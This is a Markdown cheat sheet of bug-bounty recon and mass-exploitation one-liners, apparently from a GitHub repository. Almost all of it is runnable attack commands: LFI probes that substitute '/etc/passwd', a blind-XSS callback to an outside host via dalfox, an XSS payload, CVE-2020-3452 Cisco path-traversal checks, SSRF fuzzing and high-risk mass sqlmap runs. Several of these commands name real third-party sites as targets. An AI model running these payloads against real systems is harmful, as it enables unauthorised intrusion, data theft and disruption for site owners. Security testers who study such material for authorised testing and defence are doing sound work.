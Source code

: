 # Common 

## domains
```bash 
cat wildcards.txt | assetfinder -subs-only | anew domains
```

```bash 
amass enum -df wildcards.txt | anew domains
```

```bash 
subfinder -silent -dL wildcards.txt| anew domains
```

```bash 
for i in $(cat wildcards.txt);do bash ~/scripts/Sub-Drill.sh $i | anew domains;done 
```

## Filter domain by level 

```bash
cat domains | dsieve -f 2
```

## one liners and tools

```bash 
sort -u domains | httprobe > uniq.txt
```

```bash
crlfuzz -l uniq.txt -s
```

```bash
gau uniq.txt | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

```bash 
cat uniq.txt |waybackurls | gf xss | sed 's/=.*/=/' | sort -u | tee FILE.txt && cat FILE.txt | dalfox -b l3gend.xss.ht pipe > OUT.txt
```

```bash
python3 ~/tools/Corsy/corsy.py -i uniq.txt 
```

```bash 
python3 ~/tools/XSStrike/xsstrike.py -u "https://www.glassdoor.com/rss/interviews.rss?id=lol" 
```

```bash
python3 ~/tools/smuggler/smuggler.py -u "https://google.com" -m GET -q
```

```bash
python3 ~/tools/mass-bounty/CRLF-Injection-Scanner/crlf_scan.py -i uniq.txt
```


* CVE-2020-3452
```bash
┌──(root㉿0xlegendkiller)-[~/cves/CVE-2020-3452]
└─# pwd
/root/cves/CVE-2020-3452
                                                                                              
┌──(root㉿0xlegendkiller)-[~/cves/CVE-2020-3452]
└─# python3 CVE-2020-3452.py -i ~/private_hackerone/playtika/domains
```

```bash 
cat uniq.txt | while read h do; do curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"; done
```

```bash
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < HOSTS.txt
```

```bash
subzy -targets domains -hide_fails
```

```bash
jaeles scan -s /root/.jaeles/base-signatures/cves/* -U domains.txt
```

## Heavy 
```bash
eyewitness --web -f uniq.txt -d /path_to_save_screenshots ##### optional , takes time, better grep for juicy domains and move forward
```

```bash
for I in $(ls); do 
        echo "$I" >> index.html;
        echo "<img src=$I><br>" >> index.html;
done
```

## SSRF Test (Wayback + Burp Pro)

```bash
cat wayback.txt | gf ssrf | sort -u >> testblindssrf.txt
```

```bash
cat testblindssrf.txt | qsreplace "burp_url" >> ssrfuzz.txt

ffuf -c -w ssrfuzz.txt -u FUZZ -t 200
```

## dalfox

```bash 
python3 ~/tools/ParamSpider/paramspider.py --domain google.com -o param.txt
```

```bash
dalfox -b l3gend.xss.ht file param.txt
```

## SQL Injection Mass Testing

```bash
subfinder -d tesla.com -silent -all | httpx -silent -threads 100 | katana -d 4 -jc -ef css,png,svg,ico,woff,gif | tee -a urls
```

```bash
cat urls | gf sqli | tee -a sqli
```

```bash
while read line;do sqlmap -u $line --parse-errors --current-db --invalid-logical --invalid-bignum --invalid-string --risk 3;done < sqli
```

## Finding deadlinks
```bash
for i in $(cat uniq.txt);do deadlinks $i|anew dead_Links;done
```

```bash
deadfinder file uniq.txt -o deadfinder.json
```

* Find valid links from wayback, cralwers, hawked etc 
```bash
cat wayback.txt| hakcheckurl | grep "200 http" | anew wayback200
```


